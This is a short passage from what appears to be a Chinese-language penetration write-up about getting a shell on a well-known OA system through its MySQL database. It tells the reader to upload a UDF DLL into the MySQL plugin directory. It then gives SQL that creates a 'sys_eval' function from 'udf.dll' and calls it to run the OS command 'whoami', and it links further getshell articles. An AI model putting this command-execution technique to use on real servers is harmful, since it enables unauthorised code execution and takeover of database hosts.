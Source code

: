 然后将 dll 文件上传到`mysql5/lib/plugin`目录下，执行
```sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
select sys_eval('whoami');
```
成功创建自定义函数并调用命令
![](https://img-blog.csdnimg.cn/1477dbe218fa4d10a49908df045e7f12.png)

参考：
[某知名OA高版本getshell思路（附部分脚本）](https://mp.weixin.qq.com/s/vHR1mOmu2xf_irKRxhFxIw)
[某知名OA命令执行方法探索（续）](https://mp.weixin.qq.com/s/3dM2vMidSoH_wIWCk84epw)